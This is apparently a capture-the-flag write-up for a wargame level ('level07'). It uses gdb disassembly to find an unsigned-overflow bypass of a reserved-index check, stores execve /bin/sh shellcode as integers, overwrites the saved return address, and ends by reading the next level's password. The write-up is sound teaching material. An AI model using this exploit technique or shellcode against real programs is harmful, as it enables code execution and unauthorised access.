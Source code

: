 # If we disass the main function we can see that at the start of the program every argv and env is set to 0
# This prevent us to inject a shellcode in argv or in the env

# The program manipulate an array on the stack as passed it's adress in the functions `read_number` and `store_number`
gdb> disass main
[...]
   0x08048924 <+513>:	lea    eax,[esp+0x24]
   0x08048928 <+517>:	mov    DWORD PTR [esp],eax
   0x0804892b <+520>:	call   0x80486d7 <read_number>    ; ret = read_number()
[...]
gdb> disass read_number
[...]
   0x080486fc <+37>:	shl    eax,0x2                    ; idx << 0x2 (idx * 4)
   0x080486ff <+40>:	add    eax,DWORD PTR [ebp+0x8]    ; idx * 4 + array
[...]
gdb> disass store_number
[...]
   0x08048686 <+86>:	test   edx,edx                      ; idx % 3 == 0
   0x08048688 <+88>:	je     0x8048697 <store_number+103>
   0x0804868a <+90>:	mov    eax,DWORD PTR [ebp-0x10]     ; value
   0x0804868d <+93>:	shr    eax,0x18
   0x08048690 <+96>:	cmp    eax,0xb7                     ; value >> 0x18 == 0xb7
   0x08048695 <+101>:	jne    0x80486c2 <store_number+146>
   0x08048697 <+103>:	mov    DWORD PTR [esp],0x8048ae6    ; " *** ERROR! ***"
   0x0804869e <+110>:	call   0x80484c0 <puts@plt>         ; puts(" *** ERROR! ***")
   0x080486a3 <+115>:	mov    DWORD PTR [esp],0x8048af8    ; "   This index is reserved for wil!"
   0x080486aa <+122>:	call   0x80484c0 <puts@plt>         ; puts("   This index is reserved for wil!")
   0x080486af <+127>:	mov    DWORD PTR [esp],0x8048ae6    ; " *** ERROR! ***"
   0x080486b6 <+134>:	call   0x80484c0 <puts@plt>         ; puts(" *** ERROR! ***")
[...]
   0x080486c5 <+149>:	shl    eax,0x2                      ; idx << 0x2 (idx * 4)
   0x080486c8 <+152>:	add    eax,DWORD PTR [ebp+0x8]      ; idx * 4 + array
   0x080486cb <+155>:	mov    edx,DWORD PTR [ebp-0x10]
   0x080486ce <+158>:	mov    DWORD PTR [eax],edx
[...]
# Here we can see that every 3 index is reserved
# The array is indexed using pointer arithmetic so we can bypass the check using unsigned overflow

# We will try to store a shellcode in the array then overwrite the `eip` to jump at the address of the array

# First let's find the address of the array on the stack
# Because gdb alter the address of the array we want to jump in we need to find a way to find it's address during runtime
gdb> b read_number
gdb> r
[...]
Input command: read
# The array is load by the instruction `DWORD PTR [ebp+0x8]`
gdb> x $ebp+0x8
0xffffd5b0:	0xffffd5d4
gdB> p/d (0xffffd5d4 - 0xffffd5b0) / 4
$1 = 9
# We need to read the index -9 to find the address of the array at runtime

# Now we need to find where the eip is saved on the stack so we can overwrite it
gdb> disass main
[...]
   0x0804892b <+520>:	call   0x80486d7 <read_number>    ; ret = read_number()
[...]
gdb> b *0x0804892b
gdb> r
[...]
Input command: read
gdb> info frame
[...]
 Saved registers:
  ebx at 0xffffd78c, ebp at 0xffffd798, esi at 0xffffd790, edi at 0xffffd794, eip at 0xffffd79c
[...]
gdb> p/d (0xffffd79c - 0xffffd5d4) / 4
$1 = 114
# 114 % 3 == 0: It's a protected index


# We will use the following shellcode \x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
# We convert each 4 bytes to an integer
$> python3
>>> 0xe1f7c931
3791112497
>>> 0x2f2f6851
791636049
>>> 0x2f686873
795371635
>>> 0x896e6962
2305714530
>>> 0xcd0bb0e3
3440095459
>>> 0x80
128

# Then we will use the fact that 2**32 overflow to 0 and ((2**32) / 4) % 3 == 1 to write at forbidden indexes
>>> (2**32) / 4 + 0
1073741824.0
>>> (2**32) / 4 + 3
1073741827.0
>>> (2**32) / 4 + 114
1073741938.0
# We have everything we need

# First we will store our shellcode in the index 0-5
# Then we find the address of our array at index -9
# Then we store the adddress of the array at the address of eip at index 114
$> ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 3791112497
 Index: 1073741824
 Completed store command successfully

Input command: store
 Number: 791636049
 Index: 1
 Completed store command successfully

Input command: store
 Number: 795371635
 Index: 2
 Completed store command successfully

Input command: store
 Number: 2305714530
 Index: 1073741827
 Completed store command successfully

Input command: store
 Number: 3440095459
 Index: 4
 Completed store command successfully

Input command: store
 Number: 128
 Index: 5
 Completed store command successfully

Input command: read
 Index: -9
 Number at data[4294967287] is 4294956340
 Completed read command successfully

Input command: store
 Number: 4294956340 // (114) - подмена eip у функции main ; 2147483638 (-10) - подмена eip у функции store_number
 Index: 1073741938
 Completed store command successfully

Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC


